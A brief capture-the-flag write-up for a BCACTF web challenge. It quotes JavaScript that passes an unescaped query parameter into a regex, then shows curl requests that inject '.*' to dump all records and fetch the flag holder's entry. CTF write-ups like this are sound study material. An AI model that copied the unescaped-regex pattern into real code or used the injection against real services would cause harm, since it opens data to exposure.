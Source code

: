 > I found this database that does not use SQL, is there any way to break it?

---

```js
if (line.match('^'+req.query.name+'$')) {
	goodLines.push(line)
}
```

So it is taking our name as regex, give it `.*` then.

```sh
curl --request GET \
  --url 'http://challs.bcactf.com:30390/?name=.*'
```

There's someone with name `Flag Holder`, that's convenient.

> Ricardo Olsen has an ID of 1

Ah, so id is the index.

```sh
curl --request GET \
  --url http://challs.bcactf.com:30390/51/Flag/Holder

# bcactf{R3gex_WH1z_54dfa9cdba13}
```

Simple stuff.